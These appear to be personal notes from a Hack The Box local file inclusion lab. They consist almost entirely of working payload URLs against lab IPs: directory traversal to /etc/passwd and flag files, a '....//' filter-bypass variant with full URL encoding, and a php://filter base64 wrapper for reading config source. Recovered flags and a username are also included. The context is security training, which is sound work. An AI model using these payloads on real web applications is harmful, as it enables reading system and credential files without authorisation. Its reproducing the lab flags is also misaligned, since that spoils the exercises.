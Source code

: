 http://94.237.49.166:56586/index.php?language=../../../../etc/passwd
barry

http://94.237.49.166:56586/index.php?language=../../../../usr/share/flags/flag.txt
HTB{n3v3r_tru$t_u$3r_!nput}


languages//....//....//....//....//....//etc/passwd
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64

languages//....//....//....//....//....//flag.txt
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%66%6c%61%67%2e%74%78%74

HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}

php://filter/read=convert.base64-encode/resource=config
